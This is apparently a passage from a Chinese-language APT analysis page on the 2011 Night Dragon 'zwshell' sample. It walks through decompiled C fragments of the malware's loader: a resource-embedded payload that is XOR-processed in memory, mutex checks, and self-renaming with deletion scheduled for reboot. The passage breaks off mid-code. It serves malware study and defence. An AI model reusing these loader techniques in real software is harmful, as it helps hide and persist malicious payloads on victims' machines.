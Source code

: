 ```yaml
---
title: APTs
cascade:
  type: docs
---
```


### 2011.02.10 - Night Dragon

（`zwshell`）这个其实是一个类似`cobalt strike`的一个工具生成的样本，不过好像比`cs`的功能少一些。看一下这个样本的`loader`的核心部分：

- 查找和加载资源：
  
  ```c
  ResourceA = FindResourceA(0, Name, 0xA);      // 在资源节查找DATA类型的资源
  foundResource = ResourceA;
  if ( !ResourceA )
      return 0;
  Resourcesize = SizeofResource(0, ResourceA);  // 获取资源大小
  Resource = LoadResource(0, foundResource);    // 将资源加载近内存
  ```
  
- 锁定和加密资源：
  
  ```c
  if (LockResource(Resource)) // 锁定资源
  {
      handle_Gchunk = GlobalAlloc(0x40u, Resourcesize);  // 分配内存
      Gchunkaddr = GlobalLock(handle_Gchunk);           // 锁定内存
      qmemcpy(Gchunkaddr, isLocked, Resourcesize);      // 拷贝数据到新内存
      xorencryption(Gchunkaddr, Resourcesize);          // 加密数据
  }
  ```
  
- 互斥体管理：

  ```c
  MutexA = OpenMutexA(0x100000u, 0, byte_403113);  // 尝试打开互斥体
  if ( !MutexA )
  {
      MutexA = CreateMutexA(0, 0, byte_403113);    // 如果不存在则创建互斥体
  }
  ```

- 获取文件路径并重命名文件：

  ```c
  GetModuleFileNameA(0, Filename, 0x105u);  // 获取当前程序路径
  lstrcpyA(String1, Filename);              // 复制到 String1
  ```

- 文件移动/重命名：

  ```c
  for ( i = lstrlenA(String1) - 1; i >= 0; String1[i--] = v10 + 2 )
  {
      v10 = String1[i]; //当前程序的绝对路径
      if ( v10 == '\\' )
          break;
  }
  if ( MoveFileA(Filename, String1) )  // 如果移动成功
  {
      lstrcpyA(byte_4032AC, String1);  // 更新文件路径
      MoveFileExA(String1, 0, 4u);      // 延迟删除文件，重启前才会删除该文件
  }
  else
  {
      lstrcpyA(byte_4032AC, Filename);
      MoveFileExA(Filename, 0, 4u);
  ```